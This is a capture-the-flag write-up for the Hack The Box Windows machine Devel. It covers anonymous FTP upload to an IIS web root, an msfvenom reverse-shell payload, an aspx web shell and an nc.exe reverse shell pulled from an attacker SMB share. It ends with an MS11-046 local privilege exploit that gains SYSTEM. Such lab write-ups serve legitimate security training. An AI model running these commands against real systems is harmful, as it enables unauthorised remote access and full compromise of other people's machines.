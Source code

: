 ```yaml
---
title: Devel HTB (English)
image: /assets/img/Anexos/Pasted%20image%2020250410152509-1.png
description: Devel HTB Machine [Difuculty easy]
categories: [CTF,HackTheBox]
tags: [hacking,easy]
---
```




## Introduction

Devel, while relatively simple, demonstrates the security risks associated with some default program configurations. It is a beginner-level machine which can be completed using publicly available exploits. 

### Machine Description

![](/assets/img/Anexos/Pasted%20image%2020250410191300-1.png)

- Name: Devel
- Goal: Get two flags
- Difficulty: easy
- Operating System: Windows
- link: [Devel](https://app.hackthebox.com/machines/3)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/M%C3%A1quina%20Devel.pdf)



## Reconnaissance

We start executing `nmap` in order to know the ports and services running in the machine.

```shell
nmap -sSCV --min-rate=5000 -p- --open -n -Pn 10.10.10.5 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-10 15:24 CEST
Nmap scan report for 10.10.10.5
Host is up (0.043s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Nmap report us the ports _21_(ftp) and _80_(http). In this scenario ftp allows anonymouys login so let's connect. 


```shell
ls
200 PORT command successful.
150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete
```

Once within ftp, we can see this files. This files seem to be from a web server. We confirm this watching this in the web:




![](/assets/img/Anexos/Pasted%20image%2020250410153112-1.png)

Curiously the main image has the same name as the ftp image so wen can start thinking that ftp is using the web directory.

As it's using IIS we must use a _.aspx_ in order to gain a reverse shell.

![](/assets/img/Anexos/Pasted%20image%2020250410154506-1.png)


## Explotation
I made the next payload using `msfvenom`

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.4  LPORT=4444 -f aspx >reverse.aspx
```


Then I upload it using ftp



![](/assets/img/Anexos/Pasted%20image%2020250410154021-1.png)

> This didn't work, when I finished the machine I realized it was because I should have used meterpreter xd, so I did it with:


I copy this _cmd.aspx_

```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

Then I upload it 
```shell
ftp> put cmd.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1442 bytes sent in 0.000594 seconds (2.32 Mbytes/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-10-25  05:51PM                 1442 cmd.aspx
```

Now we have RCE. The next step is gaining a reverse shell.

![](/assets/img/Anexos/Pasted%20image%2020250410165207-1.png)


`nc` is not installed in Windows by default, so I just copy it from **seclist** and while I'm sharing the file using `impacket`, I execute it remotely using the `cmd.aspx` in order to get a reverse shell.
```shell
cp /usr/share/wordlists/seclists/Web-Shells/FuzzDB/nc.exe .
```

```shell
\\10.10.16.4\smbFolder\nc.exe -e cmd 10.10.16.4 4444 
```


![](/assets/img/Anexos/Pasted%20image%2020250410165637-1.png)

## Privilage Escalation
Now I'm in, I run `systeminfo` to know if it can be vulnerable. 
```
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          10/4/2025, 2:09:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.292 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.373 MB
Virtual Memory: In Use:    768 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::4d6a:f8a6:c841:598a
                                 [03]: dead:beef::9556:9677:a8ff:c58e
                                 [04]: dead:beef::4d6a:f8a6:c841:598a

c:\windows\system32\inetsrv>wget
wget
'wget' is not recognized as an internal or external command,
operable program or batch file.
```

Searching in google I figure out this version is vulnerable. I use the next POC to exploit:

> ![](https://github.com/n3rdh4x0r/CVE-2011-1249?tab=readme-ov-file)

```shell
 wget https://raw.githubusercontent.com/n3rdh4x0r/CVE-2011-1249/refs/heads/main/40564.c
```

```shell
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```

Now I use `impacket` again to share it using smb.

![](/assets/img/Anexos/Pasted%20image%2020250410173202-1.png)

But didn't work lmao, so I changed to this one:

- ![](https://github.com/am0nsec/exploit/blob/master/windows/privs/MS11-046/ms11-046.exe)


```powershell
C:\Users\Public>copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
copy \\10.10.16.4\smbFolder\ms11-046.exe virus.exe
        1 file(s) copied.
```

```powershell
C:\Users\Public>.\virus.exe
.\virus.exe

c:\Windows\System32>whoami
whoami
nt authority\system
```
And were root.



